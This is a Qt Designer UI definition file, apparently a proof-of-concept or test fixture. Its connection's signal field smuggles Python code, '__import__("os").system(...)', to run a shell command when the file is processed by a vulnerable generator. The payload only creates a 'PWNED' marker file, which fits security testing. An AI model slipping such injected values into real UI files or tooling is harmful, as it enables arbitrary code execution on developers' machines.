
<?xml version="1.0" encoding="UTF-8"?>
<ui version="4.0">
 <class>Form</class>
 <widget class="QWidget" name="Form">
  <layout class="QVBoxLayout" name="lay">
   <item>
    <widget class="QPushButton" name="btn">
     <property name="text"><string>BODY</string></property>
    </widget>
   </item>
   <item>
    <widget class="QLabel" name="lab"/>
   </item>
  </layout>
 </widget>
 <resources/>
 <connections><connection><sender>btn</sender><signal>clicked; __import__(&quot;os&quot;).system(&quot;touch PWNED&quot;); x(</signal><receiver>lab</receiver><slot>clear()</slot></connection></connections>
</ui>
